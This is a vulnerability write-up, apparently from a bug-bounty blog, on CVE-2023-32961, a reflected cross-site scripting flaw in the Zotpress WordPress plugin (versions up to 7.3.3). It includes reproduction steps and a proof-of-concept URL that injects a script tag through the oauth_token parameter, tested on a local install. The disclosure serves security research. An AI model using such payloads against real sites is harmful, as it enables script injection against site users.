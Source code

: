 ```yaml
---
layout: post
date: 2023-05-16
title: CVE-2023-32961 Analysis
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```



## Component details


---


### Component name


Zotpress


### Vulnerable version


≤ 7.3.3


### Component slug


zotpress


### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)


## Pre-requisite


---


Unauthenticated


## Vulenerability details


---


### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.


### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`

### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
		```

- Easy to install php oauth extension:
	- One Line Command :

		```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
		```

- Tested in wordpress:latest Docker image.

### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}


## References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)


